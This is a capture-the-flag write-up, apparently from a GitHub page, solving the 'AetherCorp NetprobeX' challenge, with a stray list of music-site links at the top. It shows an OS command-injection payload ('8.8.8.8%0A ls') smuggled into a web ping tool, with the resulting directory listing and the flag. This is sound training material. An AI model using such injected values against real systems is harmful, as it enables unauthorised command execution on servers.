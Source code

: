 ## References
- [RateYourMusic](https://rateyourmusic.com)
- [Spotify](https://www.spotify.com)
- [Last.fm](https://www.last.fm)




# AetherCorp NetprobeX
This challenge required us to uncover a hidden backdoor in the NetProbeX system, a remnant of the former AetherCorp. The task involved analyzing logs and exploiting vulnerabilities to retrieve a passcode. The engineers left subtle hints in the logs, which we had to decipher to progress. Our goal was to find and exploit this backdoor to get the flag.

## My solve
**Flag:** `citadel{bl4ck51t3_4cc3ss_gr4nt3d}`

1. Initially, I was unsure what to do, so I started by testing the input field with the placeholder text provided. I entered `8.8.8.8` in the textbox, which triggered a ping command. Here is the response I received:

   ```bash
   PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
   64 bytes from 8.8.8.8: icmp_seq=1 ttl=112 time=3.90 ms
   64 bytes from 8.8.8.8: icmp_seq=2 ttl=112 time=3.85 ms
   64 bytes from 8.8.8.8: icmp_seq=3 ttl=112 time=3.95 ms
   64 bytes from 8.8.8.8: icmp_seq=4 ttl=112 time=3.96 ms

   --- 8.8.8.8 ping statistics ---
   4 packets transmitted, 4 received, 0% packet loss, time 3005ms
   rtt min/avg/max/mdev = 3.845/3.913/3.961/0.046 ms
   ```

2. I tried entering other commands like `ls` but received an error: `ping: ls: No address associated with hostname`. This indicated that the system was interpreting my input as part of the ping command and not executing shell commands directly.

3. I then searched on google to find something so that we can write it without any error. I got to know about using `%0A` to inject multiple commands. I tested this by entering `8.8.8.8%0A ls`:

   ```bash
   Executing: ping -c 4 8.8.8.8%0A ls

   PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
   64 bytes from 8.8.8.8: icmp_seq=1 ttl=112 time=3.82 ms
   64 bytes from 8.8.8.8: icmp_seq=2 ttl=112 time=4.00 ms
   64 bytes from 8.8.8.8: icmp_seq=3 ttl=112 time=3.97 ms
   64 bytes from 8.8.8.8: icmp_seq=4 ttl=112 time=3.97 ms

   --- 8.8.8.8 ping statistics ---
   4 packets transmitted, 4 received, 0% packet loss, time 3004ms
   rtt min/avg/max/mdev = 3.818/3.938/4.000/0.070 ms
   app.py
   mission_briefing.txt
   requirements.txt
   templates
   ```
